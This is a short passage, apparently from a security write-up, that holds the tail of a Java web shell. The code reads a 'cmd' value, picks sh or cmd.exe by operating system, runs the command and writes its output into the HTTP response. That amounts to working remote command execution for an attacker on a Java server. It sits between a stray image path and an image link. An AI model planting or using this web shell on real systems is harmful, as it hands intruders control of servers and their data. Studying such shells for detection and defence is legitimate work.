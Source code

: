 ```java
            if (cmd != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream inputStream = Runtime.getRuntime().exec(
command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? scanner.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![](img/5.png)
